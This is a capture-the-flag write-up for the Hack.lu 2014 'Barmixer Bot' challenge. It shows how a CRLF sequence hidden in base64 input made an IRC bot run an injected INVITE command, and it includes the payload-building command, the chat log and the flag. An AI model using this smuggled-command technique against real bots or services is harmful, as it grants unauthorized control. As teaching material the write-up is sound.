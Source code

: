 # Hack.lu CTF 2014: Barmixer Bot

**Category:** Misc
**Points:** 200
**Author:** freddy
**Description:**

> There’s a fun and quirky IRC bot to play with. It responds to commands in private chat but also in #hacklu-saloon on freenode. We think it’s involved in a devious scheme that distracts people to get their money pickpocketed. So be careful!
>
> **Announcement:** Due to a clever hack, somebody took over the nickname `barmixer-bot`, so it is now called `barmixing-bot`.

## Write-up

In the `#hacklu-saloon` channel on Freenode is a bot with operator privileges named `barmixer-bot` (later `barmixing-bot`).

```
22:32:57 <mathiasbynens> !help
22:32:58 <barmixing-bot> Send messages to the bot or the channel starting with an exclamation mark. Known commands are list, status, karma, math, base64, base64d, rot13, ping, hack, request, list
22:33:32 <mathiasbynens> !list
22:33:33 <barmixing-bot> Not implemented ;-)
22:33:34 <mathiasbynens> !status
22:33:35 <barmixing-bot> My name is barmixing-bot, my uptime is 3 hours 7 minutes and 18 seconds. I am on the following channels: #hacklu-saloon, #hacklu-secret-channel
```

That `#hacklu-secret-channel` sure looks interesting. Sadly it’s not possible to just `/join` it, as it’s an invite-only channel.

Some testing reveals that the bot’s `!base64d` functionality can be exploited. By letting the bot decode a multi-line message, remote IRC command execution is possible. Let’s use this to trick the bot into inviting us to the secret channel:

```bash
$ printf "hi\r\nINVITE mathiasbynens #hacklu-secret-channel" | base64
aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
```

Let’s feed this message to the bot for decoding:

```
22:38:44 <mathiasbynens> !base64d aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
22:38:44 <barmixing-bot> hi
22:38:44 <barmixing-bot> Invite to join #hacklu-secret-channel
```

Joining `#hacklu-secret-channel` reveals the flag in the topic:

```
FLAG: GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH
```

The flag is `GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-misc-200-barmixing-bot/>
